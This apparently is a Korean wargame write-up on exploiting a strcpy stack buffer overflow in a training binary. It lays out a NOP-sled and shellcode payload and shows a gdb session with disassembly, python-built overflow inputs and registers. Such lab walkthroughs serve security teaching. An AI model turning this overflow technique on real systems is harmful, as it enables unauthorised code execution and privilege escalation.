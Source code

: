 buf의 위치는 ebp-40이다. strcpy로 argv[1]을 복사하기 때문에 buf에 채워넣을 수 있는 스트링의 크기에 제한이 없다. 따라서 argv[1]을 dummy string(44) + Shellcode addr(4) + Nop(200) + Shellcode(25) + Nop(200)으로 총 473 바이트로 채울 수 있다.

Shellcode의 주소를 알아보기 위해 gdb를 이용하자 여기서 orc 자체는 디버깅 권한이 없으므로 or2로 복사하여 진행했다.

``` bash2
[goblin@localhost goblin]$ cp orc or2
[goblin@localhost goblin]$ gdb -q ~/or2
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x8048500 <main>:	push   %ebp
0x8048501 <main+1>:	mov    %ebp,%esp
0x8048503 <main+3>:	sub    %esp,44
0x8048506 <main+6>:	cmp    DWORD PTR [%ebp+8],1

.................

0x80485bd <main+189>:	call   0x8048440 <strcpy>
0x80485c2 <main+194>:	add    %esp,8
0x80485c5 <main+197>:	lea    %eax,[%ebp-40]
0x80485c8 <main+200>:	push   %eax
0x80485c9 <main+201>:	push   0x8048659
0x80485ce <main+206>:	call   0x8048410 <printf>
0x80485d3 <main+211>:	add    %esp,8
0x80485d6 <main+214>:	leave  
0x80485d7 <main+215>:	ret    
0x80485d8 <main+216>:	nop    
0x80485d9 <main+217>:	nop    
0x80485da <main+218>:	nop    
0x80485db <main+219>:	nop    
0x80485dc <main+220>:	nop    
0x80485dd <main+221>:	nop    
0x80485de <main+222>:	nop    
0x80485df <main+223>:	nop    
End of assembler dump.
(gdb) b * main+215
Breakpoint 1 at 0x80485d7
(gdb) r `python -c 'print "A"*44+"BBBB"+"C"*425'`
Starting program: /home/goblin/or2 `python -c 'print "A"*44+"BBBB"+"C"*425'`
stack is still your friend.

Program exited normally.
(gdb) r `python -c 'print "A"*44+"\xbf"*4+"C"*425'`
Starting program: /home/goblin/or2 `python -c 'print "A"*44+"\xbf"*4+"C"*425'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA옜옜CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Breakpoint 1, 0x80485d7 in main ()
(gdb) i r
Ambiguous info command "r": registers, remote-process.
(gdb) info registers
eax            0x1da	474
ecx            0x400	1024
edx            0x40106980	1074817408
ebx            0x401081ec	1074823660
esp            0xbffff93c	-1073743556
ebp            0x41414141	1094795585
esi            0x4000ae60	1073786464
edi            0xbffff984	-1073743484
eip            0x80485d7	134514135
eflags         0x286	646
```